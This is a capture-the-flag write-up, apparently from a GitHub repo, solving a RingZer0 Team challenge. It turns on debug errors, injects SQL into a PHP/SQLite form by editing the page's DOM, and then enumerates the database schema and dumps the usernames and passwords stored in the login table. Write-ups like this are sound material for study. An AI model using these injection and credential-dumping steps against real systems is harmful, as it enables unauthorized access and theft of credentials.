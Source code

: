 # Knight Portal (3/3)

## Description

https://ringzer0team.com/challenges/352

## Solution

From [challenge 351](./351.md) we obtained the source code of `home.php`. From there we try to find a way to do an injection in SQL.

Reading the code, we can see that:
- `first_name` allows for single quote, while all the other fields are more or less protected.
- there is a way to display error messages by adding a `DEBUG` parameter when performing a GET request on the page

We therefore load the page with the following url http://challenges.ringzer0team.com:10352/home?debug=true

Then we try to add a single quote on the first field and get the following error:

> Exception: near "Spearalot": syntax error in /var/www/html/home.php:41 Stack trace: #0 /var/www/html/home.php(41): SQLite3->exec() #1 /var/www/html/index.php(43): include('/var/www/html/h...') #2 {main}

Studying the way the query is built, and leveraging the fact that we can escape single-quote using double single-quote, we set up the fields as follow:
- first_name: "WOW'"
- last_name: ""
- salary: 50
- cameras: [""]
- notes: ", notes=(/** INSERT A QUERY TO EXECUTE HERE */) WHERE id=1 --";

We do this by manipulating the DOM:
```js
document.getElementById('first_name').value = "WOW'";
document.getElementById('last_name').value = "";
camera = document.getElementById('camera');
camera.removeChild(camera.lastElementChild);
camera.removeChild(camera.lastElementChild);
camera.lastElementChild.value = "";
document.getElementById('notes').value = ", notes=(/** INSERT A QUERY TO EXECUTE HERE */) WHERE id=1 --";
```

Which generate the following query:

```sql
UPDATE 
  knight 
SET 
  first_name = 'WOW'', last_name = '', salary = 50, cameras = '', notes = ', 
  notes =(
    /** INSERT A QUERY TO EXECUTE HERE */
    ) 
WHERE 
  id = 1 --' WHERE id=1
```

With this method, we can inject any query (without single quote) and prints its result into `notes`.

We start by listing all the columns of the `knight` table, including hidden one:
- Query: `SELECT group_concat(name) FROM pragma_table_xinfo("knight")`
- Result: `id,first_name,last_name,salary,cameras,notes`

We then list all the ids of the `knight` table:
- Query: `SELECT group_concat(id) FROM knight`
- Result: `1`

There is no other columns or rows that could hide the flag. We list all the primary tables:
- Query: `SELECT group_concat(name) FROM sqlite_master`
- Result: `login,sqlite_autoindex_login_1,knight`

We then list the columns of the `login` table, including hidden one:
- Query: `SELECT group_concat(name) FROM pragma_table_xinfo("login")`
- Result: `id,username,passwd`

We then list all the username of the `login` table:
- Query: `SELECT group_concat(username) FROM login`
- Result: `Baron Gevodan Salisbury`

We then list all the passwd of the `login` table:
- Query: `SELECT group_concat(passwd) FROM login`
- Result: `I'm rich and I know it.`